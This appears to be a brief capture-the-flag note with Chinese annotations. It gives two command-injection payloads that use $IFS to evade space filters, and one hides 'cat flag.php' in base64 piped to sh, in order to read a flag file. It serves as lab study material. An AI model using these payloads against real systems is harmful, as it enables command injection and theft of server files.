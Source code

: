 
```python
#1
;cat$IFS$9`ls`
#2
;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

flag.php
base64编码与解码

执行一段base64解码后的数据


执行`cat flag.php`
1. base64 encode
`Y2F0IGZsYWcucGhw`
